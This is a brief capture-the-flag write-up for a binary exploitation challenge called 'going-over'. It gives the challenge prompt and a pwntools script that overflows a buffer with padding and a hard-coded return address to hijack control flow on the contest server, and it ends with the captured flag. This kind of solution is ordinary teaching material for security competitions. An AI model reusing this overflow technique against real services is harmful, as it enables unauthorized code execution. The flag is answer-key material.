 ## going-over

### Challenge Description  


- My friends said they were going on a trip but I think they ran into some trouble...  
- They sent me these two files before we lost contact (src.c and going-over)  
- nc 0.cloud.chals.io 10197  

### Writeup
This is pwn.    
```python
import pwn
from pwn import *
p = remote("0.cloud.chals.io", 10197)
payload = 'A' * 20 + pwn.p64(0x00000000004011b6)

p.sendline(payload)
print(p.recvline())
p.interactive()

# jctf{ph3w_ju57_1n_71m3}
```